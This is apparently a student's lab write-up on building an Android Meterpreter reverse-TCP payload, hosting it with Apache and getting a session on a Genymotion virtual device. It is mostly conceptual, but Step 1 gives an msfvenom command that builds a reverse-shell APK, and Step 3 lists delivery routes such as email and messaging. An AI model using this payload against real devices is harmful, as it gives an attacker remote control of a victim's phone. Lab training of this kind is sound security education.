









# Lab 3 - Android Meterpreter Reverse TCP Lab

## Objective

The objective of this lab was to understand:

* Android payload concepts in a controlled lab environment
* Meterpreter reverse TCP communication
* Android application deployment in a virtual device
* Metasploit Framework listener configuration
* Basic post-exploitation enumeration techniques
* Android virtualization using Genymotion

## Lab Environment

Machine	Purpose
Kali Linux	Testing Machine
Genymotion Android VM	Android Test Device
Apache2 Web Server	File Hosting
Metasploit Framework	Listener & Session Management

### Network Diagram

## Key Concepts Learned

### Android Payload Concepts

Android applications are distributed using APK (Android Package) files. In a controlled security testing environment, APK files can be used to demonstrate how reverse connections and remote sessions operate.

### Reverse TCP Communication

A reverse TCP connection is initiated by the target system back to a listening service. This model is commonly used in penetration testing labs to understand remote session establishment.

### Apache Web Hosting

Apache2 was used to host files on the local network so that they could be downloaded by the Android virtual machine.

### Meterpreter Sessions

Meterpreter provides an interactive session that allows security professionals to perform system enumeration and gather information during authorized testing.

## Lab Workflow

## Step 1 – Android Payload Preparation

An Android APK file was prepared for use within the lab environment.

**msfvenom -p android/meterpreter/reverse_tcp LHOST=192.x.x.x LPORT=4444 > android.apk**

## Step 2 – Apache Web Server Verification

Apache2 service status was verified and the web server was started.

Purpose:

* Host files on the local network
* Allow controlled file transfer to the Android VM

## Step 3 – Android File Transfer

The Android application was transferred to the Genymotion virtual device.

Possible transfer methods include:

* Local web server download
* Email attachment
* Messaging platforms
* USB transfer
* Shared folders

For this lab, the APK was transferred within the local testing environment.

## Step 4 – Metasploit Listener Configuration

The Metasploit Framework was used to configure a listener and monitor incoming connections.

Concepts covered:

* Payload configuration
* Listener configuration
* Session handling
* Reverse TCP communication

## Step 5 – Session Establishment

After launching the application in the Android virtual machine, a Meterpreter session was established.

Learning outcomes:

* Session creation
* Session interaction
* Communication verification

## Post-Exploitation Enumeration

Basic information gathering commands were executed to understand the device environment.

System Information

Purpose:

* Display operating system details
* Verify session connectivity

## Skills Practiced

* Android Virtualization (Genymotion)
* Apache2 Web Server Administration
* Linux Command Line
* Metasploit Framework
* Meterpreter Session Management
* Reverse TCP Concepts
* Android Application Deployment
* Network Communication Fundamentals
* Post-Exploitation Enumeration
* Technical Documentation

- Lessons Learned

This lab demonstrated how Android virtual devices can be used for cybersecurity training and how reverse TCP communication works within a controlled environment.

## Key takeaways:

* Understanding Android APK deployment
* Configuring Apache2 services
* Working with Metasploit listeners
* Managing Meterpreter sessions
* Performing basic enumeration activities
* Documenting cybersecurity lab work professionally

# ⚠️Disclaimer

This lab was performed in an isolated educational environment using virtual machines owned and controlled by the student for cybersecurity learning purposes.
